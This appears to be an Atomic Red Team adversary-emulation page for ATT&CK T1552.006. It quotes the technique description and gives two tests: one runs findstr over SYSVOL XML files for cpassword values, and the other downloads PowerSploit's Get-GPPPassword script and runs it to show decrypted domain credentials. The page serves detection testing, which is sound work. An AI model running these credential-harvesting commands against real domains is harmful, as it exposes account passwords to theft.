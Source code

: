# T1552.006 - Group Policy Preferences
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1552/006)
<blockquote>Adversaries may attempt to find unsecured credentials in Group Policy Preferences (GPP). GPP are tools that allow administrators to create domain policies with embedded credentials. These policies allow administrators to set local accounts.(Citation: Microsoft GPP 2016)

These group policies are stored in SYSVOL on a domain controller. This means that any domain user can view the SYSVOL share and decrypt the password (using the AES key that has been made public).(Citation: Microsoft GPP Key)

The following tools and scripts can be used to gather and decrypt the password file from Group Policy Preference XML files:

* Metasploit’s post exploitation module: <code>post/windows/gather/credentials/gpp</code>
* Get-GPPPassword(Citation: Obscuresecurity Get-GPPPassword)
* gpprefdecrypt.py

On the SYSVOL share, adversaries may use the following command to enumerate potential GPP XML files: <code>dir /s * .xml</code>
</blockquote>

## Atomic Tests

- [Atomic Test #1 - GPP Passwords (findstr)](#atomic-test-1---gpp-passwords-findstr)

- [Atomic Test #2 - GPP Passwords (Get-GPPPassword)](#atomic-test-2---gpp-passwords-get-gpppassword)


<br/>

## Atomic Test #1 - GPP Passwords (findstr)
Look for the encrypted cpassword value within Group Policy Preference files on the Domain Controller. This value can be decrypted with gpp-decrypt on Kali Linux.

**Supported Platforms:** Windows


**auto_generated_guid:** 870fe8fb-5e23-4f5f-b89d-dd7fe26f3b5f






#### Attack Commands: Run with `command_prompt`! 


```cmd
findstr /S cpassword %logonserver%\sysvol\*.xml
```




#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```




<br/>
<br/>

## Atomic Test #2 - GPP Passwords (Get-GPPPassword)
Look for the encrypted cpassword value within Group Policy Preference files on the Domain Controller.
This test is intended to be run from a domain joined workstation, not on the Domain Controller itself.
The Get-GPPPasswords.ps1 executed during this test can be obtained using the get-prereq_commands.

Successful test execution will either display the credentials found in the GPP files or indicate "No preference files found".

**Supported Platforms:** Windows


**auto_generated_guid:** e9584f82-322c-474a-b831-940fd8b4455c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| gpp_script_url | URL of the Get-GPPPassword PowerShell Script | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/87630cac639f29c2adcb163f661f02890adf4bdd/Exfiltration/Get-GPPPassword.ps1|
| gpp_script_path | Path to the Get-GPPPassword PowerShell Script | Path | PathToAtomicsFolder&#92;T1552.006&#92;src&#92;Get-GPPPassword.ps1|


#### Attack Commands: Run with `powershell`! 


```powershell
. #{gpp_script_path}
Get-GPPPassword -Verbose
```




#### Dependencies:  Run with `powershell`!
##### Description: Get-GPPPassword PowerShell Script must exist at #{gpp_script_path}
##### Check Prereq Commands:
```powershell
if(Test-Path "#{gpp_script_path}") {exit 0 } else {exit 1 }
```
##### Get Prereq Commands:
```powershell
New-Item -ItemType Directory (Split-Path "#{gpp_script_path}") -Force | Out-Null
Invoke-WebRequest #{gpp_script_url} -OutFile "#{gpp_script_path}"
```
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```




<br/>
